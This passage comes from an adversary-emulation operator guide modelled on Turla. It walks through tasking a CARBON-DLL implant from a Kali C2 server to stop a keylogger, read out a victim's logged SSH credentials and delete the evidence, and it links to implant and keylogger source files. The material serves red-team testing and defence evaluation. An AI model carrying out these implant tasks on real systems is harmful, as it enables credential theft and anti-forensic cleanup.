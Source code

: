 * Within the SSH session, **type do not copy** the follow commands as
`Adalwolfa`:
1. `sudo nano /var/www/html/index.html`
1. Go to line 198 with `CTRL + SHIFT + -` then type 198
1. Replace `Apache2 Ubuntu Default Page` with `Adalwolfa's Page`
1. save the file with `CTRL + X`, `Y`, `enter`
1. Type `exit` to exit from the SSH session

:arrow_right: Return to the Kali C2 server and task the CARBON-DLL implant 
on Adalwolfa's workstation to kill the keylogger process.
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 1, "cmd": "taskkill /IM wingtsvcupdt.exe /F"}'
```

* Wait 1 minute and then task the CARBON-DLL implant to exfiltrate the data written
to the keylogger file:
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 2, "cmd": "type %temp%\\~DFA512.tmp"}'
```

:heavy_exclamation_mark: Verify that the keystrokes were logged containing the website information and Adalwolfa's SSH credentials.

* Wait 1 minute and then task the CARBON-DLL implant to remove the keylogger and keylogger output file:
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 3, "cmd": "del /Q C:\\Windows\\Temp\\wingtsvcupdt.exe %temp%\\~DFA512.tmp"}'
```

### :moyai: Source Code

* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task/payload retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
* [Keylogger](Keylogger_README.md)
  * [Current hostname discovery](keylogger.cpp#L41)
  * [Token manipulation and session discovery to restart in active session](keylogger.cpp#L579)
  * [Keylogging hook routine](keylogger.cpp#L349)
  * [Set keylogging hook](keylogger.cpp#L719)
  * [Active window discovery](keylogger.cpp#L419)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://blog.talosintelligence.com/2021/09/tinyturla.html>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Step 9 - Lateral Movement to Linux Server
